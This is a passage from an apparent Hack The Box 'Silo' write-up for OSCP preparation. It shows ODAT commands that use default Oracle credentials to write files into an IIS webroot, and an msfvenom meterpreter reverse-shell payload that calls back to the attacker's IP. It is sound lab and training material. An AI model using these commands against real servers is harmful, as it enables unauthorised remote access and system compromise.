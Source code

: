 ```bash
[2.6] DBMSSCHEDULER library ?
[-] KO
[2.7] CTXSYS library ?
[-] KO
[2.8] Hashed Oracle passwords ?
[-] KO
---snip---
```

DBMS_XSLPROCESSOR library is enabled and will allows me to put files onto the machine. I just try a simple file to check if I could uplaod a reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ cat hello.txt        
Hello World

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ odat utlfile --putFile C:\\inetpub\\wwwroot\\ hello.txt /hackthebox/oscp-prep/silo/hello.txt -s silo.htb -p 1521 -U scott -P tiger -d XE --sysdba

[1] (10.10.10.82:1521): Put the /hackthebox/oscp-prep/silo/hello.txt local file in the C:\inetpub\wwwroot\ folder like hello.txt on the 10.10.10.82 server
[+] The /hackthebox/oscp-prep/silo/hello.txt file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the hello.txt file

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ curl silo.htb/hello.txt
Hello World
```

This worked, so I will generate a reverse shell. I already used metasploit for this box, so it does not matter if I use a meterpreter shell:

```sql
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.28 LPORT=1337 -f aspx-exe -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx-exe file: 24259 bytes
Saved as: shell.aspx
```

I upload the shell the same way as the test file before:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ odat utlfile --putFile C:\\inetpub\\wwwroot\\ shell.aspx /hackthebox/oscp-prep/silo/shell.aspx -s silo.htb -p 1521 -U scott -P tiger -d XE --sysdba

[1] (10.10.10.82:1521): Put the /hackthebox/oscp-prep/silo/shell.aspx local file in the C:\inetpub\wwwroot\ folder like shell.aspx on the 10.10.10.82 server
[+] The /hackthebox/oscp-prep/silo/shell.aspx file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the shell.aspx file
```
